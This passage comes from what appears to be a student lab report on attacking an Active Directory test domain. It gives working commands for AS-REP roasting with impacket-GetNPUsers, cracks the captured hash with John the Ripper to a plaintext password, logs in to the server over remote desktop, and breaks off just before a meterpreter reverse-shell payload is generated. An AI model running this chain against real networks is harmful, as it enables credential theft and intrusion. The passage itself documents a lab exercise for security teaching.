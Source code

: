 <p><img src="https://github.com/AM311/Cybersecurity_Report/blob/main/img/noPreAuth.png?raw=true" alt="Accounts that does not require pre-auth"></p>
<p><mark>DIMOSTRARE CHE QUELL’ACCOUNT PUÒ CONNETTERSI SOLO AL DNS (altrimenti basterebbe così!)</mark></p>
</li>
<li>
<p><strong>Ask for a TGT for these accounts:</strong><br>
Using the following command we ask the DC for a TGT foreach of the previous accounts and we format them so that they are ready to be cracked using <em>John the Ripper</em>:</p>
<p><code>impacket-GetNPUsers -dc-ip 10.0.2.200 cybersec.units.it/DomainUser:User00! -request -format john</code></p>
<p>From the output, we copy the string referring to the desired account (<em>as shown below</em>) in a <strong>text file</strong> called <code>usernames.txt</code> and located on the desktop.</p>
<p><code>$krb5asrep$DNSoperator@CYBERSEC.UNITS.IT:8690a5aa5b288a036a49126539f292ef$afe3e87aafc 35690745c5dfeb1f459dcc1ed858f1f4755d3aefa12921c93dbc35b35c0fd6094be7390eab67e0c016f96 efad6f7ed8343a734e0f401c91ec09a83d11542d377f0d1daf690d7205a3b5d8316a2d1afdd0a6ac4b3e9 2fb4d6d295a60b074e549aa6a7c0e24cccfd7dd96cfdb06f908d38de6cb775f4fa44b5eae69bc2452fdfb bfa6ca73a70233a2f64e778d3bd286047a69ddf6fd99379b264f747034c32c66971240bede9becb6150fc 85d516545f661aef05c22fc5c26a210a4243627cf681ea61f45996fb8d235b3f9d972433c390ff3b4250f 576c96c54d167a61a76717831eb320b84aa37acef60cd3f1c781bf6e</code></p>
</li>
<li>
<p><strong>Perform AS-Rep Roasting:</strong><br>
As said, we will now try to crack the password used for encoding the response obtained together with the TGT, performing a so-called AS-Rep Roasting attack.<br>
For doing so, we will use <strong>John the Ripper</strong>, basing the offline-guessing activity on a password dictionary called <code>rockyou</code>.</p>
<p><code>john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5asrep ./Desktop/usernames.txt</code></p>
<p>“Fortunately”, the password is present in the dictionary, so <em>john</em> finds it immediately: it is <strong><code>Qwerty123</code></strong>.</p>
<p><img src="https://github.com/AM311/Cybersecurity_Report/blob/main/img/asRepRoasting.png?raw=true" alt="Result of the offline guessing with John the Ripper"></p>
<p>Thanks to this, we now know the credentials of an Admin account authorized to connect to the DNS/File server; so, we now try to do so.</p>
<p><mark>VERIFICARE CHE SI POSSA FARE DESKTOP REMOTO</mark></p>
</li>
<li>
<p><strong>Open a remote connection to the DNS/File Server:</strong><br>
Now that we know the credentials for an account that can logon to the DNS/File Server, we can open a connection to that machine and perform some “useful” actions!<br>
To open a remote desktop connection, we can use the following command directly from the Kali Linux machine:</p>
<p><code>rdesktop 10.0.2.250 -u DNSoperator -p Qwerty123 -d cybersec.units.it -r disk:share=~/Desktop/share</code></p>
<p>Using the option <code>-r disk:share=~/Desktop/share</code> we can share the folder <code>share</code> between the Kali Linux machine and the remote DNS/File Server, so we are able to easily move documents between the two devices.</p>
</li>
<li>
<p><strong>Generation of a payload for starting a reverse shell and injection:</strong><br>
In a different shell window, we now proceed with the generation of an exploit through which we will try to inject a reverse shell client to the computers of the organization.<br>
We will use <strong><code>meterpreter</code></strong> as reverse shell; for doing so, we run the following command on the Kali Linux machine to generate a payload that launches the reverse shell client:</p>